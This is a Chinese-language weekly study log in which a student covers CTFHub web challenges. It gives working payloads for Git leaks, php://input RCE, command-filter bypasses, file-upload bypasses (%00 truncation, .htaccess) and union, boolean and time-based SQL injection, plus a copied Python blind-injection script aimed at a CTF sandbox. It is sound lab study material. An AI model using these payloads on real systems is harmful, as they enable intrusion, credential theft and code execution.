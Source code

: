 # <font style="color:rgb(38, 38, 38);">完成事项</font>
1. cfthub刷题web方向:
信息泄露,密码口令,文件上传,RCE,SQL注入部分
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241019235321.png) 
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241020000136.png)
2. 学习python:  学到循环语句结束
# <font style="color:rgb(38, 38, 38);">下周待做事项</font>
1. XSS和SSRF漏洞
2. python学习
# <font style="color:rgb(38, 38, 38);">本周学习的知识分享</font>
## cfthub-web
### HTTP协议
1. HTTP/1.1协议中共定义了八种请求方法: 常用的有GET,POST  
要进行POST请求->要添加请求头`Content-Type: application/x-www-form-urlencoded`  
可以使用`curl`指令指定请求方式,只要客户端和服务端约定好,也可以自己发明一个请求方式 
```
curl -X [指定的请求方式] [网址]
```
2. HTTP请求头常用字段
- User-Agent 客户端使用的浏览器器
- X-Forwarded-For 客户端IP
- Referer 从哪个页面跳转到当前页面
- Cookie 用户标识
- Content-Type 请求体中的内容的类型
3. 基础认证
输入的账号和密码会连接成 "user:password" 这样的字符串,然后进行 Base64 编码  
以如下格式添加到请求头向服务端发送
```HTTP
Authorization: Basic [Base64编码后的账号密码]
```
### 信息泄露
1. 目录扫描
2. 文件下载
- 备份文件常见后缀名：.~ .bak  .bash_history .bkf
- 使用vim修改了文件内容但没有正常保存退出时会创建临时缓存文件: .swp .swo .swn
- `.DS_Store`是Mac OS保存文件夹的自定义属性的隐藏文件,内容是:当前目录所有文件的文件名
3. Git泄露
Githack.py要在python2下运行  
- 使用`python2 Githack.py http://challenge-358cafc79eea833b.sandbox.ctfhub.com:10800/.git/`下载泄露的git文件
- git log -->查询版本的历史
git diff [xxxxxxxxxxx] -->查看工作区和暂存区之间文件的差异
git stash list -->列出暂时保存的文件
git checkout stash@{0} --[要查看的文件] -->查看暂时保存的文件
### 密码口令
使用bp可进行爆破
### RCE
1. php://input
`php://input`协议,会执行POST传参的代码   
例如:
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016192319.png)
2. php://filter
在已知文件的位置和名字可以使用  
`?file=php://filter/read=convert.base64-encode/resource=要查看的文件路径`
3. 命令过滤
- 可以使用less、more、tail等命令来代替cat
- 使用`${IFS}`代替空格
- 没有`; | &`我们就不能执行多行命令,可以用`%0a`代替
- 单词被过滤可使用通配符: flag改为f*或f???
### 文件上传
1. 后缀检查
- 前端验证: 禁用js即可
- MIME绕过: bp抓包,修改`Content-Type:`为`image/png`
- 00截断: bp抓包,修改文件名为`c.php%00.png`,修改url为`?road=/var/www/html/upload/c.php%00`   
低版本php会忽略`%00`后的内容
- 双写后缀: bp抓包,修改文件名为`c.pphphp`  
删去一个`php`后剩下的字符又组合出了`php`
2. 图片马
图片有两个注意点: 成功上传和正常解析
- 文件头检查: 修改图片马`mm.png`文件名为`mm.php`
- .htaccess
先上传一个内容为`AddType application/x-httpd-php .png`的`.htaccess`文件   
作用是把`.png`文件解析为`.php`来执行
### SQL注入
#### 有回显位->联合注入:
```sql
?id=1 order by 3--+查看表格一共有几列,逐渐增加3的大小直到报错
?id=-1 union select 1,2,3--+查看表格的哪几列会在页面显示
?id=-1 union select 1,database(),version() --+database查询库名,version查询表名
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+security为目标库名,查询出的内容为security库下的所有表名
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+user为目标表名,查询出的内容为user表下的所有字段名
?id=-1 union select 1,2,group_concat(username ,id , password) from users--+user为目标表名,username id password为其下的目标字段名,查询结果为字段下的实际内容。这里加id是因为查询出的username和password无间隔,不好区分
```

#### 回显没有数据,只显示对错->布尔盲注:
布尔盲注主要用到length(),ascii() ,substr()这三个函数,首先通过length()函数确定长度再通过另外两个确定具体字符是什么。布尔盲注向对于联合注入来说需要花费大量时间。  
>ascii码尝试范围32~127
```sql
?id=1''and length((select database()))>9--+  
--+大于号可以换成小于号或者等于号，主要是判断数据库的长度。lenfth()是获取当前数据库名的长度。如果数据库是haha那么length()就是4
?id=1''and ascii(substr((select database()),1,1))=115--+
--+substr("78909",1,1)=7 substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。布尔盲注我们都是长度为1因为我们要一个个判断字符。ascii()是将截取的字符转换成对应的ascii吗，这样我们可以很好确定数字根据数字找到对应的字符。
 
?id=1''and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
--+判断所有表名字符长度。
?id=1''and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
--+逐一判断表名
 
?id=1''and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20--+
--+判断所有字段名的长度
?id=1''and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+
--+逐一判断字段名。
 

?id=1'' and length((select group_concat(username,password) from users))>109--+
--+判断字段内容长度
?id=1'' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+
--+逐一检测内容。
```

#### 页面既无回显也无报错->时间盲注:
如果页面一直不变这个时候我们可以使用时间注入,时间注入和布尔盲注两种没有多大差别只不过时间盲注多了if函数和sleep()函数。if(a,sleep(10),1)如果a结果是真的,那么执行sleep(10)页面延迟10秒,如果a的结果是假,执行1,页面不延迟。通过页面时间来判断出id参数是单引号字符串

```sql
?id=1'' and if(1=1,sleep(5),1)--+
--+判断参数构造。
?id=1''and if(length((select database()))>9,sleep(5),1)--+
--+判断数据库名长度
 
?id=1''and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
--+逐一判断数据库字符
?id=1''and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
--+判断所有表名长度
 
?id=1''and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
--+逐一判断表名
?id=1''and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
--+判断所有字段名的长度
 
?id=1''and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
--+逐一判断字段名
?id=1'' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
--+判断字段内容长度

?id=1'' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
--+逐一检测内容。
```
还没学会自己写,抄来的时间盲注爆破字段内容脚本
```python
import requests
from time import perf_counter

# 设定环境URL，由于每次开启环境得到的URL都不同，需要修改！
url = 'http://challenge-72527e33bcba6c40.sandbox.ctfhub.com:10800/'
rs = requests.session()
# 把字母表转化成ascii码的列表，方便便利，需要时再把ascii码通过chr(int)转化成字母
ascii_range = range(ord('a'), 1 + ord('z'))
# flag的字符范围列表，包括花括号、横杠、a-z、数字0-9
flag_range = [45, 123, 125] + list(ascii_range) + list(range(48, 58))

# 爆flag
def get_flag(name_of_table, name_of_column):
    i = 1
    while True:
        for j in flag_range:
            whole_url = url + '?id=1 and if(ascii(substr((select {} from {}),{},1))={},sleep(1),1)'.format(name_of_table,name_of_column, i, j)
            t1 = perf_counter()
            rs.get(whole_url)
            t = perf_counter() - t1
            if t > 1:
                print(chr(j), end="")
                if chr(j) == '}':
                    print()
                    return 1
                break
        i = i + 1

def main():
    print("Getting the flag......")
    print("[+]The flag is ", end="")
    get_flag("flag", "flag")

if __name__ == '__main__':
    main()
```
# <font style="color:rgb(38, 38, 38);">本周学习总结</font>


# <font style="color:rgb(38, 38, 38);">杂项</font>


